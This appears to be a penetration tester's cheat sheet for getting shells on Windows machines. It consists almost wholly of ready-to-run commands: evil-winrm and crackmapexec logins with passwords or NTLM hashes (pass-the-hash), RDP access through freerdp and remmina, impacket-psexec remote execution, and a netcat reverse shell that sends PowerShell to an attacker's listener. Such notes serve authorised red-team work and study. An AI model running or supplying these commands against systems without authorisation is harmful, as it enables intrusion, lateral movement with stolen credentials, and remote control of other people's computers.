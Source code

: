 # Shells

## Evil-WinRM

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

### Test with cme

```bash
cme winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```

### Port : 5985

```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

## RDP

### freerdp

```bash
freerdp /u:$user /p:$password /v:$ip
```

### remmina

```bash
remmina -c rdp://$user@$ip
```

## `Impacket-psexec`

PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

## `netcat`

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
